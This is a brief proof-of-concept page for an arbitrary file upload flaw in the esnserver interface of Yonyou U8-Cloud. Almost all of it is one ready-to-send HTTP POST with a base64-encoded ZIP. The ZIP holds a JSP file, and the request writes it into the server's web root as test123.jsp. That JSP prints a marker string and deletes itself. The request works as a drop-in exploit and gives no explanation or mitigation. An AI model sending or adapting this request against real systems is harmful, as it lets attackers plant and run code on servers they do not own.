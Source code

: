 # u8c_esnserver_fileupload


```
POST /service/esnserver HTTP/1.1 
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0 
Accept-Encoding: gzip, deflate 
Content-Type: application/x-www-form-urlencoded 
Token: 469ce01522f64366750d1995ca119841 
Content-Length: 583 
 
{"invocationInfo":{"ucode":"123","dataSource":"U8cloud","lang":"en"},"method":"uploadFile","className":"nc.itf.hr.tools.IFileTrans","param":{"p1":"UEsDBAoAAAAAAA9tSFkDJCbXbQAAAG0AAAAKAAAAY29tcHJlc3NlZDwlIG91dC5wcmludGxuKCIxMjM0NTYiKTsgbmV3IGphdmEuaW8uRmlsZShhcHBsaWNhdGlvbi5nZXRSZWFsUGF0aChyZXF1ZXN0LmdldFNlcnZsZXRQYXRoKCkpKS5kZWxldGUoKTsgJT5QSwECHwAKAAAAAAAPbUhZAyQm120AAABtAAAACgAkAAAAAAAAACAAAAAAAAAAY29tcHJlc3NlZAoAIAAAAAAAAQAYACbiFZZEGdsBHOcblEgZ2wERXscDRxnbAVBLBQYAAAAAAQABAFwAAACVAAAAAAA","p2":"webapps/u8c_web/test123.jsp"},"paramType":["p1:[B","p2:java.lang.String"]} 
```

from: https://github.com/wy876/POC/blob/main/%E7%94%A8%E5%8F%8BOA/%E7%94%A8%E5%8F%8BU8-Cloud%E7%B3%BB%E7%BB%9F%E6%8E%A5%E5%8F%A3esnserver%E5%AD%98%E5%9C%A8%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E.md
